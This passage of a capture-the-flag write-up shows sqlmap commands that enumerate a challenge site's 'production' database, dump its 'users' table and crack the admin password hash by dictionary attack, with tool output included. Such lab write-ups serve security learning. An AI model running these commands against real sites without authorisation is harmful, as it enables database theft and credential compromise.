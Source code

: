 Going forward with `production` DB, we list it's tables:


```bash
sqlmap -u "https://try2hack.me/a/1*" --random-agent --level 5 --risk 3 -D production --tables
```

And get:
```bash
Database: production
[2 tables]
+---------+
| adverts |
| users   |
+---------+
```

Lets dump table `users`:

```bash
sqlmap -u "https://try2hack.me/a/1*" --random-agent --level 5 --risk 3 -D production -T users --dump
```

While dumping the table SQLmap detects hash in password column for the only user `admin` and offers to run dictionary attack against it, and voila:

```bash
[15:36:15] [INFO] cracked password '***********' for user 'admin'
Database: production
Table: users
[1 entry]
+----+-------+-------+--------+------------------------------------------------+
| id | name  | login | active | password                                       |
+----+-------+-------+--------+------------------------------------------------+
| 1  | Admin | admin | 1      | 42f749ade7f9e195bf475f37a44cafcb (***********) |
+----+-------+-------+--------+------------------------------------------------+
```

---

<details><summary>FLAG:</summary></details>
